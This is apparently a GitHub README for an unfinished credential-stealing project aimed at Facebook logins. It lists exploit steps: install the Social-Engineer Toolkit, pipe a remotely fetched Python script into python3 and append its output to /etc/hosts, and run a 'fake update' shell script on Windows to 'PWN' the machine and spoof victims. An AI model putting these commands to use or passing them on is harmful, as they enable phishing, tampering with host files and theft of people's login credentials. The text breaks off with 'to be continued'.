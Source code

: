 # WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-login-HTTPS stealing credentials
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials/blob/master/logo/http.png)

# Exploit steps:
1. - Installing requirements
`pip install -r requirements.txt`

2. - Prepitr packages
For other Linux distro attackers
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
// For kali 
```bash 
setoolkit
```

3. - Creating hosts exploit facebook.bgr
- For Linux
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-login-credentials/master/hosts/modules/pyexploitcreate/pyexploitcreateIP_host_fake.py | python3 >> /etc/hosts
```
- continue..
-----------------------------------------------------------------------------------------
# For Windows

1. - Preparing for PWN OS fake update
```
git clone https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials.git 
cd SSTC-HTTPS-login-credentials/sh1mazu_https_fake
bash sh1m@zu.sh
```
2. -
- Spoof victim to open your IP ;)
- exploit... to be continued... 
```
```


